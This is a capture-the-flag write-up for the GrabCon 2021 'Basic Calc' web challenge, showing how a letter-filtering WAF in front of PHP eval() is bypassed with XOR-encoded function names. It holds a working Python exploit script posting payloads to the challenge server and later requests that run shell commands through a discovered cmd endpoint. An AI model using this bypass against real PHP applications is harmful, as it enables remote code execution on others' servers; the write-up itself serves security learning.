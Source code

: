 # Basic Calc Writeup (web, 150pts, 88 solved)

## Description
```
Ever used calc based on php?

Link

Author: karma
```

## Task Analysis

Following the link brought me to the following webpage:

![Intro](/GrabConCTF-2021/Basic Calc/screenshots/intro.PNG)

Users are presented with a field designed to serve as a calculator, and immediately below it the unrendered html and php for the page. This made it clear that the field was protected by a WAF designed to disallow any upper or lower case letters as well as the "`" character within the submitted string. Any input that makes it past the WAF is passed to the eval() function. Our task, then, was to bypass this WAF and exploit the use of eval() to execute our own php code and find the flag.

# Solution

After briefly researching the topic I used a modified version of a python script from a [writeup for a previous CTF](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) that bypasses a very similar WAF:

```
import requests
import string

def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
print("[+] Generated valids => {}".format(valids))
 
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
 
response = requests.post('http://35.238.221.234', data={"eq":payload})

print(response.status_code, response.reason)
print(response.content.decode())
```

The script first creates a set of "valid" (i.e. will not trigger the WAF) printable characters. Each character in the "expected" string (the string we would like to be executed by eval()) is masked with a valid character from this set so that the result is another valid character. The masked characters (word1 below) and the valid characters used for the mask (word2 below) are then returned:  

```
def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
```

Masking is removed when the eval() statement applies the XOR operator ("^") included in the final payload string, which cancels out the initial masking. Something to note is that performing an XOR on two strings works here because php will perform [type juggling](https://www.php.net/manual/en/language.types.type-juggling.php) when evaluating strings in a numerical context:

```
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
```

I executed the script with "phpinfo()" encoded as the payload and achieved the following output:

![working_bypass](/GrabConCTF-2021/Basic%20Calc/screenshots/phpinfo.PNG)

Receiving the desired output of phpinfo() determined that the bypass was working. I executed the script with "print_r(scandir(/var/www/html/))" as the payload to print out the current directory's contents:

![scandir](/GrabConCTF-2021/Basic%20Calc/screenshots/scandir.PNG)

I repeated running the script using "show_source(12.php)" to retrieve the contents of the file (the same was done for file.txt but it was empty of meaningful content):

![show_source](/GrabConCTF-2021/Basic%20Calc/screenshots/show_source.PNG)

Upon rendering the response to make it more readable, I had:

![rendered_response](/GrabConCTF-2021/Basic%20Calc/screenshots/rendered_response.PNG)

This file gave me an endpoint that would execute whatever bash commands I wanted to send to it by including a GET parameter, allowing me to navigate the file system a little more easily. So I used the Burp decoder tool to URL encode the following:

![burp_encode_find](/GrabConCTF-2021/Basic%20Calc/screenshots/burp_encode_find_flag.PNG)

And sent it to the endpoint:
```
import requests

#find / -name *flag*
response = requests.post('http://35.238.221.234/12.php?cmd=%66%69%6e%64%20%2f%20%2d%6e%61%6d%65%20%2a%66%6c%61%67%2a')

print(response.status_code, response.reason)
print(response.content.decode())
```
I recieved the following output:
![find_output](/GrabConCTF-2021/Basic Calc/screenshots/find_flag_output.PNG)

I repeated the above for "cat /flagggg.txt", and received:

![flag](/GrabConCTF-2021/Basic Calc/the_flag.PNG)

And I found the flag: "GrabCON{b4by_php_f0r_y0u}"
